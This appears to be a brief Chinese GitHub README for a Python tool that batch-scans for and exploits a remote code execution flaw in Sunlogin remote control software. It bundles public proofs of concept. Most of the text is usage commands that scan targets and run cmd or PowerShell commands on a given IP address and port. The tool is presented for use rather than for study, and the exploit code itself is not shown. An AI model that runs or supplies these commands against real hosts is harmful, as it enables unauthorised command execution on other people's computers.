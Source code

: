 # 向日葵批量扫描利用工具

集成了已开放的poc 可进行批量扫描或命令执行

批量扫描

```
py -3 sunlogin-rce-scan.py 
```

cmd命令执行

```
py -3 sunlogin-rce-scan.py -a 22.22.2.13 -p 56227 -c whoami
```

powershell命令执行

```
py -3 sunlogin-rce-scan.py -a 22.22.2.13 -p 56227 -s whoami
```


